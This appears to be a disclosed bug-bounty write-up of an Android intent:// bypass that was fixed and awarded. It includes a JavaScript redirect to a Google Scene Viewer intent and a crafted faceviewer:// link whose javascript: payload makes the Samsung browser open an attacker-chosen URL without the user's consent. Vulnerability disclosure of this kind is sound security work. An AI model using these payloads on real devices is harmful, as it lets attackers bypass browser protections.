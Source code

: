 ```js
onclick = () => {
  const target = 'intent://<some non-browsable intent>';
  const title = '<h1>Click the button to continue...</h1><p1> :)</p1>';

  location.href =
    'intent://arvr.google.com/scene-viewer/1.2?file=https%3A%2F%2Fstorage.googleapis.com%2Far-answers-in-search-models%2Fstatic%2FMallardDuck%2Fmodel.glb&title=' +
    encodeURIComponent(title) +
    '&link=' +
    encodeURIComponent(target) +
    '#Intent;package=com.google.android.googlequicksearchbox;scheme=https;end';
};
```

# BROWSABLE intent:// bypass (Fixed, Awarded $4500.00)

Assuming an XSS on a top level `gstatic.com` page, `faceViewerWebXBridge.postMessage(JSON.stringify({cmd: btoa(':\x0F\n\rtestintent://')}))` worked as a bypass via the face viewer.

This also bypasses the patch from <https://issues.chromium.org/40060327> as this intent URI causes the link to be opened in the Samsung browser (com.sec.android.app.sbrowser) application instead. This occurs without any notification to or consent from the user.

- Install Samsung browser
- Put the following html on a Android device `<a href="faceviewer://arvr.google.com/faceviewer?arbi=1&wturl=https%3A%2F%2Fwww.gstatic.com%2Fvr%2Fads%2Fplayground%2Fmetrics.html%23assetUrl%3Djavascript%3A%2520top.faceViewerWebXBridge.postMessage%28%27%7B%2522cmd%2522%3A%2522OjAKLnNhbXN1bmdpbnRlcm5ldDovL29wZW4%2FdXJsPWh0dHBzOi8vZXhhbXBsZS5vcmc%3D%2522%7D%27%29%3B">tap</a>`
- Tap that link
- Notice it opened the Samsung browser via chrome to an attacker chosen URL without prompting the user first bypassing the protections of <https://issues.chromium.org/40060327>
